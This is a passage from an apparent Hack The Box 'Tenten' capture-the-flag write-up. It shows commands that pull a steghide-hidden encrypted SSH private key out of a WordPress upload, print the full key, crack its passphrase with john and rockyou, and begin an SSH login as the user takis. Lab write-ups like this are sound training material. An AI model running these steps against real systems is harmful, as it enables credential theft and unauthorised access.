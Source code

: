 Changing the date range and the filetypes to search for did give us a result.

```bash
luc@kali:~/HTB/Tenten$ wget http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
luc@kali:~/HTB/Tenten$ steghide extract -sf HackerAccessGranted.jpg
Enter passphrase:
wrote extracted data to "id_rsa".
luc@kali:~/HTB/Tenten$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C

/HXcUBOT3JhzblH7uF9Vh7faa76XHIdr/Ch0pDnJunjdmLS/laq1kulQ3/RF/Vax
tjTzj/V5hBEcL5GcHv3esrODlS0jhML53lAprkpawfbvwbR+XxFIJuz7zLfd/vDo
1KuGrCrRRsipkyae5KiqlC137bmWK9aE/4c5X2yfVTOEeODdW0rAoTzGufWtThZf
K2ny0iTGPndD7LMdm/o5O5As+ChDYFNphV1XDgfDzHgonKMC4iES7Jk8Gz20PJsm
SdWCazF6pIEqhI4NQrnkd8kmKqzkpfWqZDz3+g6f49GYf97aM5TQgTday2oFqoXH
WPhK3Cm0tMGqLZA01+oNuwXS0H53t9FG7GqU31wj7nAGWBpfGodGwedYde4zlOBP
VbNulRMKOkErv/NCiGVRcK6k5Qtdbwforh+6bMjmKE6QvMXbesZtQ0gC9SJZ3lMT
J0IY838HQZgOsSw1jDrxuPV2DUIYFR0W3kQrDVUym0BoxOwOf/MlTxvrC2wvbHqw
AAniuEotb9oaz/Pfau3OO/DVzYkqI99VDX/YBIxd168qqZbXsM9s/aMCdVg7TJ1g
2gxElpV7U9kxil/RNdx5UASFpvFslmOn7CTZ6N44xiatQUHyV1NgpNCyjfEMzXMo
6FtWaVqbGStax1iMRC198Z0cRkX2VoTvTlhQw74rSPGPMEH+OSFksXp7Se/wCDMA
pYZASVxl6oNWQK+pAj5z4WhaBSBEr8ZVmFfykuh4lo7Tsnxa9WNoWXo6X0FSOPMk
tNpBbPPq15+M+dSZaObad9E/MnvBfaSKlvkn4epkB7n0VkO1ssLcecfxi+bWnGPm
KowyqU6iuF28w1J9BtowgnWrUgtlqubmk0wkf+l08ig7koMyT9KfZegR7oF92xE9
4IWDTxfLy75o1DH0Rrm0f77D4HvNC2qQ0dYHkApd1dk4blcb71Fi5WF1B3RruygF
2GSreByXn5g915Ya82uC3O+ST5QBeY2pT8Bk2D6Ikmt6uIlLno0Skr3v9r6JT5J7
L0UtMgdUqf+35+cA70L/wIlP0E04U0aaGpscDg059DL88dzvIhyHg4Tlfd9xWtQS
VxMzURTwEZ43jSxX94PLlwcxzLV6FfRVAKdbi6kACsgVeULiI+yAfPjIIyV0m1kv
5HV/bYJvVatGtmkNuMtuK7NOH8iE7kCDxCnPnPZa0nWoHDk4yd50RlzznkPna74r
Xbo9FdNeLNmER/7GGdQARkpd52Uur08fIJW2wyS1bdgbBgw/G+puFAR8z7ipgj4W
p9LoYqiuxaEbiD5zUzeOtKAKL/nfmzK82zbdPxMrv7TvHUSSWEUC4O9QKiB3amgf
yWMjw3otH+ZLnBmy/fS6IVQ5OnV6rVhQ7+LRKe+qlYidzfp19lIL8UidbsBfWAzB
9Xk0sH5c1NQT6spo/nQM3UNIkkn+a7zKPJmetHsO4Ob3xKLiSpw5f35SRV+rF+mO
vIUE1/YssXMO7TK6iBIXCuuOUtOpGiLxNVRIaJvbGmazLWCSyptk5fJhPLkhuK+J
YoZn9FNAuRiYFL3rw+6qol+KoqzoPJJek6WHRy8OSE+8Dz1ysTLIPB6tGKn7EWnP
-----END RSA PRIVATE KEY-----
```

We can extract data from this image with `steghide` and that data is a encrypted SSH key.

```bash
luc@kali:~/HTB/Tenten$ locate ssh2john
/usr/share/john/ssh2john.py
luc@kali:~/HTB/Tenten$ /usr/share/john/ssh2john.py id_rsa > id_rsa.john
luc@kali:~/HTB/Tenten$ john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2020-06-26 12:21) 0.4065g/s 5829Kp/s 5829Kc/s 5829KC/sa6_123..*7¡Vamos!
Session completed
luc@kali:~/HTB/Tenten$ chmod 600 id_rsa
luc@kali:~/HTB/Tenten$ ssh takis@10.10.10.10 -i id_rsa
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
ECDSA key fingerprint is SHA256:AxKIYOMkqGk3v+ZKgHEM6QcEDw8c8/qi1l0CMNSx8uQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
```